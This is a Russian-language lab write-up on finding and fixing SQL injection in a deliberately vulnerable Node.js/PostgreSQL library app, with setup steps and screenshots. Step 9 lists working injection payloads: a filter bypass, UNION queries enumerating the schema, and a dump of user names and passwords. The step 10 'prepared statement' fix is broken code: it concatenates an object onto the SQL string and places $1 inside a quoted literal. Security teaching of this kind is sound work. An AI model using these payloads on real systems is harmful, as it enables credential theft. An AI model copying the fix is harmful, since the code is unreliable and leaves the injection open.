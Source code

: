 # Лабораторная работа №2

Цель работы: Поиск и устранение SQL Injection.

## Задание 1

В папке lab2 находится nodejs уязвимое приложение. Необходимо развернуть его, найти SQL инъекцию и исправить. Модифицированное приложение загрузить в свой репозиторий GitHub.

Для выполнения лабораторной потребуется проделать следующие шаги:

1. Установить PostgreSQL сервер любой версии.
 
В качестве БД будем использовать docker-образ PostgreSQL. Запуск командой:

```bash
docker run --name postgres-lr -e POSTGRES_PASSWORD=passwddd -e POSTGRES_USER=postgres -e POSTGRES_DB=lib -d -p 5432:5432 postgres
```

2. Создать БД lib.

БД создается при запуске контейнера с помощью переменной окружения POSTGRES_DB=lib. 
 
3. Применить к ней скрипты из папки db (либо создать объекты и вставить данные в таблицы руками). Скрипты выполнять в порядке указанном в имени файла. Восстановить данные из файла data.sql.

Для входа в БД используется команда запуска шелла в контейнере, а затем, уже в контейнере, выполняется команда доступа к шеллу БД.

```bash
docker exec -it postgres-lr /bin/bash
psql -U postgres -d lib
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.1.png" />
</p>

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.2.png" />
</p>

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/3.3.png" />
</p>

4. Установить nodejs версии 14.

5. Перейти в папку lab2 и выполнить в ней команду:

```bash
npm install
```
<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/5.png" />
</p>

6. Запустить сайт через Visual Studio Code или через команду:

```bash
npm start
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/6.png" />
</p>

7. Войти на сайт и увидеть список книг и авторов.
 
<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/7.png" />
</p>
    
8. Обнаружить sql инъекцию.

Используем в качестве пейлоада одинарную кавычку и получаем ошибку и весь SQL запрос.

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/8.png" />
</p>

9. Написать отчёт с описанием найденной уязвимости и примерами её эксплуатации. В отчете приветси информацию об: обходе установленного фильтра, получении данных из другой таблицы, похищении пароля пользователя.

Получим текущую таблицу в обход SQL-запроса приложения. Используем пейлоад:

```sql
%' or 1 = 1 --
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.1.png" />
</p>

Получим схему БД для определения таблиц с помощью пейлоада:

```sql
%' union select null, table_schema, table_name from information_schema.tables --
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.2.png" />
</p>

Из вывода можно найти информацию от том, что есть таблица public.users. С помощью следующего запроса определим какие столбцы есть в БД и их тип:


```sql
%' union select null, column_name,data_type  from information_schema.columns  where table_name = 'users'; --
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.3.png" />
</p>

Посмотрим записи таблицы public.users с помощью запроса:

```sql
%' union select null, name, pass  from public.users; --
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/9.4.png" />
</p>
 
10. Исправить уязвимость. В отчёте привести пример того, что уязвимости больше не эксплуатируются.
 
Для исправления уязвимости используем prepared statements в запросе поиска по книге.

```javascript
if(bookname){
        sql+={
            text: `\rwhere b.name like '%$1%'`,
            values: [bookname]
        };
    }
```

<p align="center">
  <img src="https://github.com/gk-j2/DevSecWeb/blob/main/ex02/pictures/10.png" />
</p>


P.S.
Помимо изученной SQLi обнаружена еще однин риск: хранение аутентификационных данных в коде программы.
Есть много способов получения аутентифкационных данных, одним из которых является PAM.

Также присутствует уязвимость, связанная с раскрытием информации о работе приложения путем вывода сообщения об ошибке пользователю. Решение - удалении методов вывода информации пользователю.

Не рекоменлуется использовать md5 для хэширования паролей. Решение - использование специальных хэшей: bcrypt.
Рекомендуется добавление соли в пароль.
